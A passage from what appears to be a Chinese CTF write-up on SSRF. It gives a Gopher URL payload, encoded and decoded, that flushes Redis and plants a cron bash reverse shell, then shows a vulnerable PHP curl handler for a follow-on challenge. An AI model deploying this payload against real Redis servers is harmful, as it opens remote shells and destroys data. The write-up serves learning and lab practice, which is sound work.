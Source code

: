 这便是常见的exp，只需自己更改IP和端口即可，改成适配于 Gopher 协议的 URL：

`gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/45952 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/www/html/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a`

经过url解码：

`gopher://127.0.0.1:6379/_*1 $8 flushall *3 $3 set $1 1 $64 */1 * * * * bash -i >& /dev/tcp/127.0.0.1/45952 0>&1 *4 $6 config $3 set $3 dir $16 /var/www/html/ *4 $6 config $3 set $10 dbfilename $4 root *1 $4 save quit`

进行测试，发现回显

![Usf9OK.png](https://s1.ax1x.com/2020/07/17/Usf9OK.png)

接下来在 `basic` 容器里面查看插入的 KEY 值，验证是否成功

![Ushwvt.png](https://s1.ax1x.com/2020/07/17/Ushwvt.png)

redis没学过，不太懂，看来下去还得学一学。

利用Gopher 协议还可以攻击 `FastCGI`，攻击内网 `Vulnerability Web`

具体可以参考[利用 Gopher 协议拓展攻击面](https://blog.chaitin.cn/gopher-attack-surfaces/)

## advance1

```
<?php 
	
	$handler = $_POST["handler"];
	if (preg_match('#^https?://#i', $handler) !== 1) {
		echo "Wrong scheme! You can only use http or https!";
		die();
	} else if(preg_match('#^https?://10.0.0.3#i', $handler) === 1) {
		echo "Restricted area!";
		die();
	}

	// create curl resource 
	$ch = curl_init(); 

	// set url 
	curl_setopt($ch, CURLOPT_URL, $_POST["handler"]); 

	//return the transfer as a string 
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 

	// $output contains the output string 
	$output = curl_exec($ch); 

	// close curl resource to free up system resources 
	curl_close($ch);

	echo $output;
?>
```
